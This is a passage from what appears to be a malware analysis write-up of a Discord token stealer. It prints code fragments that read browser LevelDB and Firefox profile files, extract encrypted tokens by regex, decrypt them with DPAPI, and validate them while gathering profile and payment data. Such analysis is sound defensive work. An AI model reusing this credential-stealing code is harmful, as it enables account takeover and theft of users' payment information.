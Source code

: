 

            if(existsSync(path) && existsSync(join(path, '..', '..', 'Local State'))) {
                for(const file of readdirSync(path)) {
                    if(file?.endsWith('.ldb')  || file?.endsWith('.log')) {
                        if(!existsSync(join(path, file))) return;



It uses regex to looks for tokens:



                        file_content?.forEach((line) => {
                            const encrypted_tokens = line?.match(/dQw4w9WgXcQ:[^.*['(.*)'\].*$][^']*/gi);



It uses the Windows DPAPI (per user encryption) to decrypt them. t also
makes a call to `stealFirefoxTokens` (see next section) and adds the
result the the collection of tokens. Once that's complete, it exfils
them:



        const valid_tokens = [];
        for(const value of merge(tokens_list, firefox_tokens)) {
            const token_data = await checkToken(value?.token);

            if(token_data?.id) {
                const user_data = await tokenRequests(value?.token, token_data?.id);
                if(!valid_tokens.find((u) => u?.user?.data?.id === token_data.id)) {
                    valid_tokens.push({
                        token: value?.token,
                        found_at: value?.found_in,
                        auth_tag_length: value?.auth_tag_length,
                        crypto_iv: value?.crypto_iv,
                        user: {
                            data: token_data,
                            profile: user_data?.profile,
                            payment_sources: user_data?.payment_sources
                        }
                    });
                };
            };
        };



#### Collect Tokens From Firefox

In the `getDiscordTokens` call, it also makes a call to
`stealFirefoxTokens`:



    async function stealFirefoxTokens() {
        const path = join(process.env.APPDATA, 'Mozilla', 'Firefox', 'Profiles');
        const tokens_list = [];

        if(existsSync(path)) {
            try {
                const files = execSync('where /r . *.sqlite', { cwd: path })?.toString()
                ?.split(/\r?\n/);
        